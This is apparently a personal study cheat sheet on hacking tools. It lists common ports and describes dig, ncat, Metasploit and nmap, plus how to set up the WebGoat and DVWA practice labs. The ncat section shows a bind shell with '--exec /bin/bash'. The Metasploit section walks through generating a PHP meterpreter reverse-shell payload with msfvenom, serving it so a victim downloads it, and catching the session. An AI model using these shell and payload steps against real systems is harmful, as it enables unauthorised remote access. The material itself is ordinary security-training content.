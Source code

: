 # Hacking Tools
---
******************** Ports information **************************
There are 65535 port numbers (2^16).

20 and 21: FTP (File Transfer Protocol --> Transfer files between client and server)
22: SSH (Secure Shell --> Tunneling protocol for secure network connection)
23: Telnet
25: SMTP (Simple Mail Transfer Protocol --> Used for email)
53: DNS (Domain Name System --> Domain names to ip adresses)
67 and 68: DHCP (Dynamic Host Configuration Protocol --> Assigns IP adresses to devices dynamically)
80: HTTP (Hypertext Transfer Protocol --> Makes world wide web possible)
110: POP3 (Post Office Protocol --> For receiving emails)
123: NTP (Network Time Protocol --> Clock synchronization)
143: IMAP (Internet Message Access Protocol --> For receiving emails)
179: BGP (Boder Gateway Protocol --> Used for establish connections between large networks)
443: HTTPS (Hypertext Transfer Protocol Secure --> Secure and encrypted version of http)
500: ISAKMP (Internet Security Association and Key Management Protocol --> Is part of the process of setting up secure IPsec connections)
3306: Maria DB
3389: RDP (Remote Desktop Protocol --> Allows users to connect their computers from another device)

More information at:  (IANA --> Internet Assigned Numbers Authority) https://www.iana.org/assignments/service-names-port-numbers/service-names-port-numbers.xhtml
*************************************************************

## DIG

Tool for interrogating DNS name servers.

Get a DNS response (information about a domain):

```Shell
dig ns<number of server>.<domain>
```

Get simplified response (only ip address):

```Shell
dig +short ns.<domain>

// Get one of the google´s ip adresses
dig +short ns.google.com
```

Get belonging domain of an ip:

```Shell
dig +short -x <IP adress>
```


## NCAT

Tool for reading and writing data across the network.

Use ncat as a server running in port 8080:

```Shell
ncat -l <ip> <port>
```

Example:

```Shell
ncat -l 127.0.0.1 8080
```

Establish a connection with the server:

```Shell
ncat 127.0.0.1 8080
```

Running a command on the client side, will run the command on the host machine a print the output on the client:

```Shell
ncat -l --exec "/bin/bash" 127.0.0.1 8080
```

>[!Note]
>`ncat` = `nc`


## Metasploit

- Metasploit modules 
	- Exploits
	- Payloads
	- Auxiliary
	- Encoders
	- Nops
	- Posts
	- Evasion

Modules are located in: `/usr/share/metasploit-framework/modules`

>[!Note]
>- Try to run the database service to initialize the msf faster 'service postgresql start'
>- Dictionaries for brute-force attacks available at /usr/share/metasploit-framework/data/wordlists


``` Shell
msfdb // Manage metasploit framework database
msfconsole // Initiallize the metasploit framework
```

Once on the Metasploit framework:

```Metasploit
banner // Display a banner
db_status // Check the metasploit framework database status
use <module> // Use a certain metasploit module
show <options> // Show information about a moudule
set <option> <value> // Set options, use 'show options' to see them
search <field> <parameter> // Make queries about modules. e.g. type:payload
back // Return to metasploit framework main command line interface
run // Running an auxiliary
exploit // Running an exploit
```

>[!Note]
>_msfvenom_ is a payload generator

For instance, we can make a reverse shell  by using the payload: `php/meterpreter/reverse_tcp`

```Metasploit
msfvenom -p <payload> <option>=<value> <other optional flags> > <file name to contain the payload>
```

Setting the payload with our machine listening. '-e' flag for setting an appropiate encoder, '-f' flag for setting the file format as a raw file, also we are saving the payload into 'shell.php' file

```Metasploit
msfvenom -p php/meterpreter/reverse_tcp LHOST=<Our ip address> LPORT=4444 -e php/base64 -f raw > shell.php
```

LPORT is 4444 by default (try `msfvenom -p <payload> --list-options` to looking for options)

Inside the file we'll find a single line of base64 encoded payload, so we wrap that line like that:

```
<?php
<encoded payload>
?>
```

Then the machine will read it as php code.

Now we can start an _apache2 web server_ so the victim download the payload from there. 
Copy the file into `/var/www/html`, start the server and enter your ip adress into the browser.

Go to msfconsole and use `exploit/multi/handler` then set LHOST to your address and run the exploit for start listening. Once the victim machine opens the file a session will be created.

>[!Note]
>_ARMITAGE_ -> Graphical user interface for Metasploit


## NMAP

// Use -sS for a stealth scan, -sT flag is louder. Use -sV for showing services version

nmap <flags> <IP adress> (See open ports)




---------------------------------------------------------------------------------------------------

// WebGoat is a deliberately insecure web application maintained by OWASP designed to teach web application security lessons. 
docker run -it -p 127.0.0.1:80:8888 -p 127.0.0.1:8080:8080 -p 127.0.0.1:9090:9090 -e TZ=Europe/Amsterdam webgoat/goatandwolf:v8.2.2 (Starting WebGoat)
// Web application located at: http://127.0.0.1:8080/WebGoat/login


// Now we are going to set up the DVWA web application
// We put DVWA file into /var/www/html
// Accesing MariaDB
mysql -u root -p
// mysql commands ends with semicolon
CREATE DATABASE dvwa; (Creating a database called dvwa)
GRANT all ON dvwa.* to dvwa@localhost identified by 'password'; (Granting permissions to the database)
flush privileges;
// Exit the MariaDB and rename the file into /var/www/html/DVWA/config
mv config.inc.php.dist config.inc.php
// Rewrite the file so set the user and the password to the ones setted in the database created
// Rewrite /etc/php/7.4/apache2/php.ini: allow_url_include = On
// Restart php service
// Enter localhost and create database
// Log in with admin123:password

---------------------------------ZED ATTACK PROXY---------------------------------------------

// Install zaproxy
// For quick scan use: http://www.webscanttest.com

---------------------------------------------------------------------------------------------------